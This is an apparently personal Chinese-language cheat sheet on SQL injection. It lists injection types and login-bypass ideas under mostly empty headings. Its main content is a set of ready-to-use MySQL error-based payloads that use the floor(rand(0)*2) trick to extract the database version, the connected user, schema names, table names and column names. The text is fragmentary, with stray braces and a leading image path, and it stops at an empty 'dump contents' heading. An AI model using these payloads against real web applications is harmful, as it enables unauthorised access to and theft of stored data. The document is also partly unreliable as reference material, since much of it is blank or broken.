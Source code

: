 length(可选)规定被返回字符串的长度。


3.left()函数

left(string,length)

再怎么解释也不如直接开弄

string(必需)规定要返回其中一部分的字符串

length（可选）规定被返回字符串的前length长度的字符
}
}

#sql注入
---
##注入常见类型及思路
###数字型注入

###字符型注入

###GET型注入

###宽字节注入

###POST注入

###cookie注入

###代理注入

###搜索型注入

###登录框注入
sql约束攻击
万能密码
程序逻辑错误
	sql赋值绕过登录
	MD5漏洞


###error-based（爆错型）
1. 通过floor暴错

		/*数据库版本*/
		and(select 1 from(select count(*),concat((select (select (select concat(0x7e,version(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
		/*简单办法暴库*/
		id=info()
		/*连接用户*/
		and(select 1 from(select count(*),concat((select (select (select concat(0x7e,user(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
		/*连接数据库*/
		and(select 1 from(select count(*),concat((select (select (select concat(0x7e,database(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
		/*暴库*/
		and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,schema_name,0x7e) FROM information_schema.schemata LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
		/*暴表*/
		and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,table_name,0x7e) FROM information_schema.tables where table_schema=database() LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
		/*暴字段*/
		and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,column_name,0x7e) FROM information_schema.columns where table_name=0x61646D696E LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
		/*暴内容*/